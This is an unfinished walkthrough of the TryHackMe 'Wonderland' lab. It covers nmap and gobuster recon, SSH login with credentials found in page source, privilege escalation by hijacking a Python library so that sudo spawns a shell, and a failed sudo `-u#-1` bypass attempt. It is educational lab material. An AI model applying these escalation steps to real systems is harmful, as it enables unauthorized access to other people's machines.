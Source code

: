 # Wonderland

[Play](https://tryhackme.com/room/wonderland)

## Recon

```
❯ nmap -script=default -sV -A -T4 10.10.133.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 21:51 EST
Nmap scan report for 10.10.133.60
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.75 seconds
```

```
❯ gobuster dir -u 10.10.133.60 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "txt,html,php"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.133.60
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/26 21:50:59 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/r (Status: 301)
```

In `/img/` i first tried downloading the images and doing `strings`, I could not find anything interesting. Onto `/r/`. It says 

![](https://i.imgur.com/WDNs790.png)


Interesting. However, source shows nothing special here, and now I am stuck. But it does ask to go *somewhere*. On a pure whim, I did:

`http://10.10.133.60/r/a/b/b/i/t/`

very nice. One can also run gobuster with the url: `http://10.10.133.60/r/` and keep on getting the letters.

![](https://i.imgur.com/wXwyzP3.png)

So now we want to go to the left. How? Well lets do `http://10.10.133.60/r/a/b/b/i/`

![](https://i.imgur.com/EYBLHOF.png)

The story continues!

![](https://i.imgur.com/4J1i4TS.png)

After looking at some more, I realise: wait ... I've been going in the opposite direction! To quote:

> "Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

So we must go on ... but where? I don't know. 

Looking around, we have: `alice:HowDothTheLittleCrocodileImproveHisShiningTail` in the source. [hmmmm](https://en.wikipedia.org/wiki/How_Doth_the_Little_Crocodile)

I was stuck for a while, and then stumbled upon the fact that its ssh `username:password`. "Open the door" makes sense now lmao.



## Foothold

I'm in!

```
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ pwd
/home/alice
```

Okay so the walrus thing is apparently a poem. The script is supposed to spew 10 random lines. very helpful.


```
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd rabbit/
-bash: cd: rabbit/: Permission denied
alice@wonderland:/home$ cd hatter/
-bash: cd: hatter/: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```

I tried locating `user.txt`, but I can't `locate` anything. Looking at the hint, it could be in `/root/user.txt`. It is!

```
rabbit@wonderland:/home/rabbit$ cat /root/user.txt
thm{:stonks:}
```

## Priv Esc

We may need to get into the rabbit one. Meanwhile, let's check what we can sudo:

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Ah so we can execute the script as rabbit. `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

This means we can spawn a shell as rabbit!

But ... we do not have any permissions to write the file. So how? Well, this is something called `python library hijacking`. Take a wild guess to what we are going to do.

Yeah, create a file called `random.py`, essentially overriding the actual random library. Lesgooo!

`random.py` looks as: `import pty; pty.spawn("/bin/bash")`. easy.

Executing, we have:
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ 
```

YES! okay so we see:
```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

which has a set bit ...!

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 27 Feb 2021 05:19:12 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```

This may include some reverse engineering. Anyways, linpeas gave us this:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.21p2 
```

However, 

```
rabbit@wonderland:/home/rabbit$ sudo -u#-1 /bin/bash
sudo: unknown user: #-1
sudo: unable to initialize policy plugin
```

So, back to reverse engineering it is! I wanted to start off with `strings`, but it does not want to work. 

